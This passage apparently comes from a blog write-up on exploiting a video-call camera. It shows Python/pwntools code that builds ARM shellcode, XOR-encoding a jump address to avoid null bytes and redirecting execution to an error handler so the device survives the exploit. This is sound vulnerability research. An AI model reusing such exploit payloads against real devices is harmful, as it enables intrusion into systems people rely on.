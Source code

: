 ![fixup.png](/assets/images/video_call_camera_p5/fixup.png)

I put this code together that simply jumps to *0x41e040* to see if executing this stops the crash.

```
-python
def generate_fixup_example_payload():
    # need to jump to 0x41e040 as this is an error handler in above function
    fixup_address = 0x41e040

    instructions = asm(f'''
        ldr r5, [pc, #0x8]  /* Load address of pointer from literal pool */
        ldr r6, [pc, #0x8]  /* load key */
        eor r5, r5, r6         /* get original pointer */
        bx r5               /* Jump to the loaded address */
    ''', arch='arm', endian='little')

    literal_pool = p32(fixup_address ^ 0xffffffff) + p32(0xffffffff)

    return instructions + literal_pool
```

After replacing the *0xffffffff* insruction we executed before with these thumb instructions (remember null is a bad character, hence the XOR business in the above payload) the camera responds to the malformed request with an error code and execution continues as expected!

![payload_meme.jpeg](/assets/images/video_call_camera_p5/payload_meme.jpeg)
